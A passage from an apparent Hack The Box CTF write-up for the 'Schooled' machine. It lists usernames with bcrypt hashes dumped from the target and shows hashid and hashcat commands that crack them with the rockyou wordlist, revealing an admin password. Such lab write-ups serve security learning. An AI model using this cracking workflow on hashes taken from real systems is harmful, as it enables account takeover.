 ```bash
singh_rakesh89  $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
taint_marcus89  $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
walls_shaun89   $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
smith_john89    $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
white_jack89    $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
travis_carl89   $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S
mac_amy89       $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i
james_boris89   $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq
pierce_allan    $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy
henry_william89 $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu
harper_zoe89    $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy
wright_travis89 $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm
allen_matthew89 $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq
sanders_wallis89        $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u
higgins_jane    $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
carter_lianne   $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
parker_dan89    $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
parker_tim89    $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
maoutis $2y$10$6lWwoum2tXK0U8AwZRUTjeiP0qjC/QqI9jASlLeI3EzSxtHzw47Re
tezter  $2y$10$ZQTwEHnNyxXYCPmlYZDEBeGOYLlb1kkVmgmtk2LjZarpkRNfNElTW
teztert $2y$10$JfKZmLPnL.xsFR5CR1wjverL829rCxyFltSNhaYrDaF7poG5nN1na
```

Cracked every hashes:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ cat loot/users.hash| awk -F ' ' '{ print $1 ":" $2}' > loot/users.list

┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ hashid '$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi'
Analyzing '$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt

┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ hashcat -h | grep -i blowfish
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
  18600 | Open Document Format (ODF) 1.1 (SHA-1, Blowfish) | Documents

┌──(kali㉿kali)-[~/CTFs/HTB/box/Schooled]
└─$ hashcat loot/users.list /usr/share/wordlists/rockyou.txt --force --username --separator ":" -o users.pwd -m3200
hashcat (v6.1.1) starting...
...
admin:$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx
```

>[!important]
>admin     !QAZ2wsx
